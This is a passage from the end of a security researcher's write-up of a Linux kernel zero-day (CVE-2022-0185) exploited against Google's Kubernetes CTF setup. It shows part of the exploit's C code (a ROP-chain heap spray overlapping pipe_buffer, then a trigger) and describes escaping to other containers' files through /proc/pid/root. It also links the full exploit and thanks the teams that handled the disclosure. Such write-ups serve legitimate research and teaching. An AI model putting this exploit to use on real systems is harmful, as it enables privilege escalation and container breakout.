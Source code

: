     // spray rop chain plus evil vtable ptr to overlap with pipe_buffer
    for (int i = 0; i < ROP_SPRAY; i++)
    {
        send_msg(rop_msg_qid[i], overwrite, 0x300 - 0x30, 0);
    }

    deplete_512();
    deplete_4k();
    puts("[*] Attempt at igniting ROP!");

    // trigger
    for (int i = 0; i < PIPES; i++)
    {
        close(pipefd[i][0]);
        close(pipefd[i][1]);
    }

}

To find the other container’s flag, I just bruteforced /proc/pid/root/flag/flag as the container’s pid will map to some other pid accessible from the root pid namespace. You can also just work with a root shell, but this is just more efficient for getting the flag. Google’s Kubernetes CTF infrastructure compromised! You can find the link to our final exploit here: https://github.com/Crusaders-of-Rust/CVE-2022-0185/blob/master/exploit_kctf.c.

All in all this was a really cool experience, finding a 0 day for the first time on a major project and exploiting it. I’d like to thank all the teammates I worked with above for our collaborative effort. I would also like to thank the security teams from both distros and Linux for being super responsive upon our disclosure, and Google for the generous reward. Feel free to ask me any questions about this writeup, or point out anything that is explained erroneously! Let’s see what other bugs my team and I can find this year, and hopefully we don’t hit another bug collision again.

